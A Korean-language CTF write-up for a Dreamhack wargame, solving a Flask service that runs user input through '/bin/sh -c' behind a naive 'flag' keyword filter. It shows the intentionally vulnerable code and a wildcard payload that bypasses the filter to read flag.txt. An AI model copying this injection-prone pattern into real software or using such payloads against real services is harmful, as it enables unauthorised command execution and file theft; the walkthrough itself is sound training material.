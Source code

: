 ```yaml
---
slug: baby-linux
title: "baby-linux"
description: "리눅스 명령어를 실행하는 웹 서비스가 작동하고 있을 떄 flag.txt 파일을 찾아라"
author: oxahex
createdAt: 2024-06-01
tags: ["wargame"]
---
```


# 문제 설명
[837](https://dreamhack.io/wargame/challenges/837)

리눅스 명령어를 실행하는 웹 서비스가 작동하고 있습니다.
해당 웹 서비스의 코드가 첨부파일로 주어집니다.

`flag.txt` 파일을 찾아 출력하여 플래그를 획득하세요!

플래그 형식은 `DH{...}` 입니다.

## 풀이
문제 서버로 curl 요청을 전달하면 html 파일을 볼 수 있다.

```html
<html>
<head>
  <link rel="stylesheet" href="/static/css/bootstrap.min.css">
  <link rel="stylesheet" href="/static/css/bootstrap-theme.min.css">
  <link rel="stylesheet" href="/static/css/non-responsive.css">
</head>

<body class="container">
  <form method="POST">
    <div class="row">
      <div class="col-md-6 form-group">
        <h1>Baby Linux</h1><br/>
        <div class="input_box">
          <p class="input_txt">echo $(<input type="text" name="user_input" class="input_in_txt" required>)</p>
        </div>
      </div>
    </div>

    <button type="submit" class="btn btn-default">Submit</button>
  </form><br/><br/>
  <h2>Result</h2>
  <pre></pre>


  <script src="/static/js/jquery.min.js"></script>
  <script src="/static/js/bootstrap.min.js"></script>
</body>
</html>
```
보면 `user_input` 이라는 이름의 form을 POST로 서버에 전송하고, 이를 통해 플래그를 받을 수 있음을 알 수 있다. 서버의 코드를 확인해보면 다음과 같다.

```python
#!/usr/bin/env python3
import subprocess
from flask import Flask, request, render_template

APP = Flask(__name__)

@APP.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        user_input = request.form.get('user_input')
        cmd = f'echo $({user_input})'
        if 'flag' in cmd:
            return render_template('index.html', result='No!')

        try:
            output = subprocess.check_output(['/bin/sh', '-c', cmd], timeout=5)
            return render_template('index.html', result=output.decode('utf-8'))
        except subprocess.TimeoutExpired:
            return render_template('index.html', result='Timeout')
        except subprocess.CalledProcessError:
            return render_template('index.html', result='Error')

    return render_template('index.html')

if __name__ == '__main__':
    APP.run(host='0.0.0.0', port=8000)
```

코드를 보면 `cmd = f’echo $({user_input})’`으로 유저의 입력값을 그대로 echo 처리 해서 사용하고 있는 것을 볼 수 있다.
유저가 입력한 text에 flag라는 문자열이 포함되어 있으면 No! 라는 문자열을 반환하고, 실제로 플래그를 얻을 수 있는 작업은 try문 이후임을 알 수 있다.

subprocess 모듈은 Python에서 새로운 프로세스를 생성하고, 해당 프로세스의 입력, 출력, 에러를 파이프에 연결해 반환 코드를 얻도록 하는 모듈이다. try문의 내용은 유저의 입력값을 인라인 코드로 실행한 결과를 output 변수에 할당하고, 이를 디코딩해서 반환하는 것이다.

그렇다면 유저 인풋에 명령어를 넣어서 요청하면 명령어가 포함된 cmd 스트링은 `subprocess.check_output()` 함수에 그대로 인자로 들어가게 되므로 입력값에 포함된 명령어를 실행하게 된다.

따라서 현재 폴더에 있는 모든 파일을 확인해보면,

```shell
total 32
drwxr-xr-x 5 chall chall 4096 Apr 21 2023 .
dr-xr-xr-x 1 root root 4096 Mar 18 01:55 ..
-rwxr-xr-x 1 root root 884 Apr 21 2023 app.py
drwxr-xr-x 3 root root 4096 Apr 21 2023 dream
-rw-r--r-- 1 root root 34 Apr 21 2023 hint.txt
-rw-r--r-- 1 root root 5 Apr 21 2023 requirements.txt
drwxr-xr-x 5 root root 4096 Apr 21 2023 static
drwxr-xr-x 2 root root 4096 Apr 21 2023 templates
```

이런 파일이 있는 것을 볼 수 있다.

우선 shell을 실행하고 있는 내 권한과, 현재 위치를 확인해보면 유저 이름은 `chall`, 현재 위치는 `/app`인 것을 알 수 있다. `/app` 폴더의 권한을 보면, 소유자는 chall, 소유 그룹은 chall, 소유자는 쓰기, 실행, 읽기 권한, 소유 그룹은 실행, 읽기 권한, 그 외 그룹은 실행 권한만 가지고 있는 것을 볼 수 있다.

```shell
drwxr-xr-x 5 chall chall 4096 Apr 21 2023 .
```

`hint.txt` 파일은 root 소유의 파일이고, 내 권한으로는 읽는 것만 가능하다. 궁금하니까 우선 읽어오면,

```shell
Where is Flag? ./dream/hack/hello
```

여기에 플래그의 위치가 적혀있다. 해당 폴더의 목록을 확인하면 다음과 같다.

```shell
total 12
drwxr-xr-x 2 root root 4096 Apr 21 2023 .
drwxr-xr-x 3 root root 4096 Apr 21 2023 ..
-rw-r--r-- 1 root root 68 Apr 21 2023 flag.txt
```

`flag.txt` 파일 역시 root 소유의 파일이다. 하지만 내 권한으로 읽을 수 있긴 하다. 파일을 읽어오면 될 것 같지만 `cat ./dream/hack/hello/flag.txt` 명령어에는 flag 문자열이 있으므로 Python 코드의 분기에 걸리게 된다. 따라서 다른 방법이 필요하다.

코드에 따르면 유저가 text input에 뭔가를 적는다는 것은 아래 명령어를 실행하는 것과 동일하다.

```shell
/bin/sh -c {user_input}
```
Python 코드에는 정확히 flag라고 되어 있으므로 와일드카드를 사용하면 flag라는 텍스트를 전부 입력하지 않아도 해당 파일을 읽어올 수 있다.

```shell
/bin/sh -c cat ./dream/hack/hello/fl?g.txt
```

위 명령어가 내부적으로 실행되도록 `cat ./dream/hack/hello/fl?g.txt` 문자열을 서버에 전송하면 `flag.txt` 파일을 읽어올 것이고, 이것은 cmd 변수에 할당된다. 따라서 디코딩 된 플래그를 출력할 수 있게 된다.
